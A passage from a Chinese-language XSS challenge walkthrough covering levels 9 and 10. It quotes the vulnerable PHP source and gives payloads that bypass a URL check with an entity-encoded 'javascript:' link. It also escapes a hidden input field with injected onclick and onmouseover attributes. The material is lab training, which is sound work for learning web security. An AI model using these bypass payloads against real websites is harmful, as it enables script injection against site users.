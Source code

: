 ```php
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

多了自动检测url, 如果发现没有带`http://` 内容则会显示不合法.

> `PHP strpos()` 函数, 查找字符串在另一字符串中第一次出现的位置.

构造payload：
```js
javascrip&#x74;:alert(1)//http://xxx.com  //利用注释

javascrip&#x74;:%0dhttp://xxx.com%0dalert(1)  //不利用注释
```

> `%0d`为 HTML5 URL 编码, 表示的字符为"回车符"

[html5 url编码](https://wiki.jikexueyuan.com/project/html5/url-encoding.html)

<br />

# level 10

部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

需要两个参数，一个是`keyword`, 一个是`t_sort`, 尖括号`<>`都被转换成空, 还有三个hidden的隐藏输入框.

从隐藏的输入框下手, 构造payload：
```
keyword = test&t_sort="type="text" onclick = "alert(1)

keyword = test&t_sort="type="text" onmouseover="alert(1)

keyword = test&t_sort="type="text" onmouseover=alert'1'
```
